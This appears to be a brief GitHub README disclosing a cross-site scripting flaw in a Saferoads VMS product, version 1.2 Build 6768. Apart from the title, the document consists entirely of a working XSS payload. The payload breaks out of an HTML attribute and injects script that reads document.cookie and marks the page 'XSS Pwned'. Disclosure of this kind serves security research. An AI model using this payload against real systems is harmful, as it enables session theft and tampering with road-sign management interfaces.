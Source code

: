 # Saferoads-VMS-XSS
1.2 Build 6768

```JS
" /> <!----> XSS Pwned<script>document.write("<script>alert(document.cookie);<\/script>");</script>♥ <!--
```
